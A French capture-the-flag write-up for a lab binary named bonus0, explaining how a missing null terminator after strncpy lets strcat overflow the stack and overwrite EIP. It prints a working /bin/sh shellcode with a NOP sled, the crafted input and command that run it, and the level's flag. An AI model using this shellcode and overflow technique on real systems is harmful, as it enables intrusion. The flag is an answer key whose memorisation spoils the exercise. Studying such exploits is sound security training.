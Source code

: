 ## GET Flag

Le premier strncpy a une faille, si le nombre de caractères est superieur ou égal à 20, aucun caractère null ('\0') ne sera ajouté en fin de chaîne.
Ainsi, lors du second strncpy, le contenu du second buffer sera aussi copié dans le buffer crée dans le main.
Lors du strcat, 40 octets seront déjà occupés, les 20 octets concaténés seront donc sur la stack. Ce qui permet d'écrire sur l'EIP et donc d'injecter un shellcode.

Mettons tout d'abord un shellcode dans l'environnement : `export SHELLCODE=$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\xb0\x0b\xeb\x06\x5b\x51\x53\x5b\xcd\x80\xe8\xf5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')`

La difficulté vient du fait qu'il est techniquement difficile d'ecrire des caractères hexadecimaux non ascii sans l'aide de python ou du shell.
Cependant, le read ne lit que 4096 caractères et utilise le caractère '\n' comme délimiteur.
Il est donc possible de passer par un fichier temporaire et ainsi d'utiliser python pour écrire des caractères non ascii.

`
python -c 'print 4095*"A" + "\n" + "BCDEFGHIJ" + "\x90\xf8\xff\xbf" + "OPQRSTUVWXY"' > e
cat e - | ./bonus0
`

### Flag

```
bonus1
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
